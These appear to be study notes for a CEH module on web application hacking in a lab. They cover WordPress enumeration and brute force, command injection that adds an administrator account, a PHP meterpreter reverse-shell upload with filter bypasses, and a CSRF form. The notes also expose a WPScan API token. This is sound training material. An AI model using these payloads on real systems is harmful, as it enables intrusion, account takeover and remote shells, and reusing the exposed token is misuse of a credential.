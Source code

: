 # 14 - Hacking Web Apps

## **Module 14: Hacking Web Applications**

#### Wordpress

* wpscan --url http://10.10.10.12:8080 --enumerate u

#### WP password bruteforce

* msfconsole
* use auxiliary/scanner/http/wordpress\_login\_enum

#### RCE&#x20;

* ping 127.0.0.1 | hostname | net user

### **Perform a Brute-force Attack using Burp Suite**

* Set proxy for browser: 127.0.0.1:8080
* Burpsuite
* Type random credentials
* capture the request, right click-\&gt;send to Intrucder
* Intruder-\&gt;Positions
* Clear $
* Attack type: Cluster bomb
* select account and password value, Add $
* Payloads: Load wordlist file for set 1 and set 2
* start attack
* **filter status==302**
* open the raw, get the credentials
* recover proxy settings

### **Exploit Parameter Tampering and XSS Vulnerabilities in Web Applications**

* Log in a website, change the parameter value (id )in the URL
* Conduct a XSS attack: Submit script codes via text area

### **Enumerate and Hack a Web Application using WPScan and Metasploit**

* **wpscan --api-token hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads --url** [**http://10.10.10.16:8080/CEH**](http://10.10.10.16:8080/CEH) **--plugins-detection aggressive --enumerate u**
  * **--enumerate u: Specify the enumeration of users**
  * **API Token: Register at** [**https://wpscan.com/register**](https://wpscan.com/register)
  * **Mine: hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads**
* service postgresql start
* msfconsole
* **use auxiliary/scanner/http/wordpress\_login\_enum**
* show options
* **set PASS\_FILE password.txt**
* **set RHOST 10.10.10.16**
* **set RPORT 8080**
* **set TARGETURI** [**http://10.10.10.16:8080/CEH**](http://10.10.10.16:8080/CEH)
* **set USERNAME admin**
* run
* Find the credential, and use URL http://\[IP Address of Windows Server 2012]:8080/CEH/wp-login.php to login.

### **Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server (DVWA low level security)**

* If found command injection vulnerability in an input textfield
* \| hostname
* \| whoami
* **| tasklist| Taskkill /PID /F**
  * **/PID: Process ID value od the process**
  * **/F: Forcefully terminate the process**
* \| dir C:\\
* **| net user**
* **| net user user001 /Add**
* **| net user user001**
* **| net localgroup Administrators user001 /Add**
* Use created account user001 to log in remotely

### File Upload Vulnerability – All Levels DVWA

#### Payload Creation

* `msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.11 lport=4444 -f raw` | create a raw php code
* Copy the code in a text file and save as .php

#### Low Level Exploitation

* Upload the file | note the path /dvwa/hackable/uploads/.php
* Run listener by starting msfconsole
* Type `use exploit/multi/handler`
* Type `set payload php/meterpreter/reverse_tcp`
* Type `set LHOST 10.10.10.11`
* Start listener, type exploit Browse link of file to start meterpreter session.

#### Medium Level Exploitation

* Rename file as .php.jpg
* While uploading, intercepting with burp and rename back to .php
* Run listener by starting msfconsole
* Type `use exploit/multi/handler`
* Type `set payload php/meterpreter/reverse_tcp`
* Type `set LHOST 10.10.10.11`
* Start listener, type `exploit`
* Browse link of file to start meterpreter session.

#### High Level Exploitation

* Open the .php file and add code GIF98 at start and save file as .jpg
* Upload file
* Now go to command execution tab and use command **\<Some IP>||copy C:\wamp64\www\DVWA\hackable\uploads\<filename>.jpg C:\wamp64\www\DVWA\hackable\uploads\shell.php**
* Run listener by starting msfconsole
* Type `use exploit/multi/handler`
* Type `set payload php/meterpreter/reverse_tcp`
* Type `set LHOST 10.10.10.11` Start listener, type `exploit`
* Browse link of file to start meterpreter session.

## Cross-Site Request Forgery (CSRF)

Cross-Site Request Forgery (CSRF) is a type of web security vulnerability and attack. In a CSRF attack:

1. Attackers trick users into unknowingly making malicious requests to a web application they're already authenticated on, often by embedding malicious code in a website, email, or other web content.
2. The victim's browser, while authenticated, sends the unauthorized request to the target web application without the user's consent.
3. The web application, unable to distinguish between legitimate and forged requests, processes the request as if it came from the authenticated user.
4. This can lead to actions like changing account settings or making financial transactions without the user's knowledge or consent.

Here below an example to exploit it.

* Open http://10.10.10.12:8080/CEH/wp-login.php | admin:qwerty@123
* Plugins -> Installed Plugins -> Firewall 2 -> Settings -> View Whitelisted IP
* Run command `wpscan -u http://10.10.10.12:8080/CEH --enumerate vp` | vp vulnerable plugins&#x20;
* Create a form with code
* Save as \<filename.html>

```html
<form method="POST" action="http://10.10.10.12:8080/CEH/wp-admin/options-general.php?
page=wordpress-firewall-2%2Fwordpress-firewall-2.php">
<script>alert("As an Admin, To enable additional security to your Website. Click Submit")</script>
<input type="hidden" name="whitelisted_ip[]" value="10.10.10.11" >
<input type="hidden" name="set_whitelist_ip" value="Set Whitelisted IPs" class="button-
secondary">
<input type="submit">
</form>
```

* Get victim to run it.


